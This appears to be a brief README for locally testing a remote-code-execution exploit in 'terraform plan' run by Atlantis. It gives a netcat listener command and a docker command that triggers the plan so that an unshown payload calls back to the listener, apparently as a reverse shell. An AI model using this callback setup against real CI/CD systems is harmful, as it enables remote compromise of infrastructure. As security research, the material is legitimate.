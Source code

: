 
# Overview
Src - https://alex.kaskaso.li/post/terraform-plan-rce


# Testing with atlantis locally

## One terminal tab (either locally or on different host)
```bash
nc -vklp  4242
```

## Second terminal tab

```bash
# `--net=host` is only needed if you want to connect to same host, where docker container is running
# Then in exploit, you need to use as remote address `host.docker.internal` as equivalent to `localhost` pointing from container to it's host system
docker run --net=host -v "$(pwd)":/app -it ghcr.io/runatlantis/atlantis bash -c "cd /app; terraform plan"
```


